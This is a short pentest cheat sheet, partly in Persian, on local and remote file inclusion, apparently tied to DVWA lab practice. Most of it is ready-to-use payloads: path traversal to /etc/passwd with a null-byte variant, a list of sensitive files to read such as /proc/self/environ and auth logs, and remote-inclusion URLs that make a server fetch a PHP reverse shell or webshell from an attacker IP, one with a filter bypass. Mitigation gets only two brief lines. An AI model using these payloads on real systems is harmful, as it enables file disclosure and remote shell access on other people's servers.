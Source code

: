 # File Inclusion

## Local
- Concept
  - ی
  - از این آسیب پذیری  برای خواند فایل های تنظیمات روی hosting machine استفاده می شود
  - همچنین فایل های تصادفی مانند /etc/passwd
  - همچنین ممکن است منجر به Information Disclosure شود


- Exploit
  - ```example1.php?page=intro.php../../../../../etc/passwd```
  - ```example2.php?page=intro../../../../../../../../../../etc/passwd%00``` 

- Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```
  
- Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.

## Remote
- Exploit
  - ```http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.72.200:9999/php-reverse-shell.php```
  - ```index.php?page=http://attackerIP/webshell.php``` 
  - ```index.php?page=htthttpp://attackerIP/webshell.php```
  - ```?page=hTTp://10.20.14.203/reverse.txt?```

- Mitigation
  -  Disable ```allow_url_fopen = On``` & ```allow_url_include = On```

## Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  
